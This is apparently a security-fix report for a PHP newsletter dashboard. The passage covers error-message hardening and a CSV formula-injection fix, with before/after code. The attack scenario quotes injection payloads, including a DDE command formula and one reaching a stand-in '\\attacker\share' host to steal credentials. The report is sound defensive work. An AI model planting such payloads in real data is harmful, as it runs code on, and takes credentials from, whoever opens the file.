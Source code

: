 **Attack Prevention:**
- Attackers can no longer enumerate database structure
- File system layout not revealed via errors
- PHP version not disclosed
- API endpoints not exposed through error messages

---

### 6. CSV Injection Vulnerability - FIXED ✅
**File:** `newsletter_dashboard.php`
**Lines:** 95-103
**Severity:** HIGH
**Status:** ✅ **RESOLVED**

**What Was Fixed:**

CSV export was not sanitizing cell values, allowing formula injection attacks when opened in spreadsheet applications.

**Vulnerable Code (Before):**
```php
foreach ($exportData as $row) {
    fputcsv($output, [
        $row['email'],           // Could start with =, +, -, @
        $row['status'],
        $row['created_at'],
        $row['updated_at']
    ]);
}
```

**Attack Scenario:**
1. Attacker subscribes with email: `=cmd|'/c calc'!A1`
2. Admin exports subscriber list to CSV
3. Admin opens CSV in Excel
4. Formula executes, launching calculator (or worse)

**Potential Impact:**
- Remote code execution on admin's machine
- Data exfiltration via external HTTP requests (`=WEBSERVICE()`)
- Credential theft via SMB shares (`=cmd|'/c \\attacker\share\'!A1`)
- Malware distribution
- DDE (Dynamic Data Exchange) attacks

**Solution Implemented:**

Created `sanitizeCSVValue()` function in `inc/lsapp.php`:

```php
/**
 * Sanitize CSV value to prevent formula injection
 * Prevents CSV injection attacks when opening in Excel/LibreOffice
 *
 * @param mixed $value The value to sanitize
 * @return string Sanitized value safe for CSV export
 */
function sanitizeCSVValue($value) {
    if ($value === null) {
        return '';
    }

    $value = (string)$value;

    // If value starts with dangerous characters, prepend single quote
    // Excel/LibreOffice/Google Sheets treat leading single quote as text indicator
    // Dangerous characters: = + - @ \t \r (formula injection characters)
    if (preg_match('/^[=+\-@\t\r]/', $value)) {
        return "'" . $value;
```